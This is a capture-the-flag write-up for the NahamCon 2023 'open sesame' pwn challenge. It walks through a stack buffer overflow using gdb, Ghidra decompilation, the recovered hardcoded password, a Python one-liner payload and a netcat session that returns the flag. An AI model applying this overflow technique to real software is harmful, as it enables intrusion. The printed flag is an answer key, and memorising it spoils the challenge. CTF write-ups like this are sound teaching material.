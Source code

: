 Nahamcon2023

pwn

open sesame

$ file open_sesame
open_sesame: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2525dc7633f9c705274ef4a606c1d93e5eaf1965, for GNU/Linux 3.2.0, not stripped

$ checksec --file open_sesame
[*] '/home/kali/CTF/BlueGh05t/CTF/nahamcon2023/pwn/opensesame/open_sesame'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled


$ ./open_sesame                               
BEHOLD THE CAVE OF GOLD

What is the magic enchantment that opens the mouth of the cave?
HELLO

** Entering a ton of characters gives us a segfault.  Maybe there's a buffer overflow we can exploit

$ gdb-pwndbg open_sesame  

$ cyclic 300

$ run

* paste in the pattern

$ cyclic -l kaaaaab

$ offset found at 280

* Open open_sesame in ghidra

void caveOfGold(void)

{
  int iVar1;
  undefined local_118 [268];
  int local_c;
  
  local_c = 0;
  puts("BEHOLD THE CAVE OF GOLD\n");
  puts("What is the magic enchantment that opens the mouth of the cave?");
  flushBuffers();
  __isoc99_scanf(&DAT_00102088,local_118);
  if (local_c == 0) {
    puts("Sorry, the cave will not open right now!");
    flushBuffers();
  }
  else {
    iVar1 = isPasswordCorrect(local_118);
    if (iVar1 == 1) {
      puts("YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:");
      flag();
    }
    else {
      puts("ERROR, INCORRECT PASSWORD!");
      flushBuffers();
    }
  }
  return;
}

* So we have a buffer, then the local_c variable (initiated to 0).
* Further down we see the function checks to see if local_c = 0, and exits if that's true.
* So we need to overwrite the value of local_c to anything other than 0.  
* BUT, we don't want to overflow the buffer as wew only need to get past this check on local_c
* HOWEVER, we also need to input the correct password:


bool isPasswordCorrect(char *param_1)

{
  int iVar1;
  
  iVar1 = strncmp(param_1,"OpenSesame!!!",0xd);
  return iVar1 == 0;
}

* password is 'OpenSesame!!!' - the strncmp is only looking at the first 13 bytes. 

* So now we have our plan - we need to provide the program with less than 280 bytes (the amount of data which will overflow the buffer), with the first 13 bytes being the password.

$ python -c 'print("OpenSesame!!!" + "1"*270)'


$ nc challenge.nahamcon.com 32743                                                                                139 ⨯
BEHOLD THE CAVE OF GOLD

What is the magic enchantment that opens the mouth of the cave?
OpenSesame!!!111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111
YOU HAVE PROVEN YOURSELF WORTHY HERE IS THE GOLD:
flag{85605e34d3d2623866c57843a0d2c4da}

